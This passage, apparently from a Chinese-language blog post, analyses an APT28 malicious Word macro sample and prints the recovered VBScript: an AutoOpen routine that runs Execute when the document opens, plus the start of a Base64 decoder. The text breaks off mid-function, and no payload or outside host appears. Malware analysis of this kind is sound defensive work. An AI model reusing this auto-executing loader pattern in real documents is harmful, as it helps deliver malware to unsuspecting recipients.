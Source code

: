 
---
layout:     post                    # 使用的布局（不需要改）
title:      APT28-Cyber_Conflict               # 标题 
subtitle:   APT28, Cyber_Conflict #副标题
date:       2018-07-23              # 时间
author:     DC                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - apt28
---

# APT28-Cyber_Conflict

攻击手法 office 宏攻击

成功提取了样本，样本数量比预想的要多几个233 

针对样本进行分析  94b288154e3d0225f86bb3c012fa8d63  这个样本为一个doc文档

其宏存在加密 ，然后在网上找了一个破解的软件 ，提取了密码  ,进行了破解

![20180718160359.png](https://github.com/zhongshendoushuizhao/project/blob/master/APT&malwarle_learn/picture/20180718160359.png?raw=true) 

成功跟进到宏代码如下



```vbscript
Sub AutoOpen()
    Execute  #在打开doc文件时自动执行宏代码 执行Execute函数
End Sub

Private Function DecodeBase64(base64) As Byte()  #解密函数
    Const decodeTable = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
          
    If 0 <> Len(base64) Mod 4 Then
        Exit Function
    End If
      
    outputLen = (Len(base64) / 4) * 3
    If "=" = Mid(base64, Len(base64), 1) Then
        outputLen = outputLen - 1
    End If
    If "=" = Mid(base64, Len(base64) - 1, 1) Then
        outputLen = outputLen - 1
    End If
      
    Dim decodedBytes() As Byte
    ReDim decodedBytes(outputLen - 1)
    outputIndex = 0
          
    For quartet = 1 To Len(base64) Step 4
        groupBase64Number = 0
        Const base = 64
        realBytesInThisGroup = 3
        For i = 0 To 3
           inputChar = Mid(base64, quartet + i, 1)
           indexInTable = 0
        
           If "=" = inputChar Then
                realBytesInThisGroup = realBytesInThisGroup - 1
           Else
                indexInTable = InStr(1, decodeTable, inputChar, vbBinaryCompare) - 1
           End If
```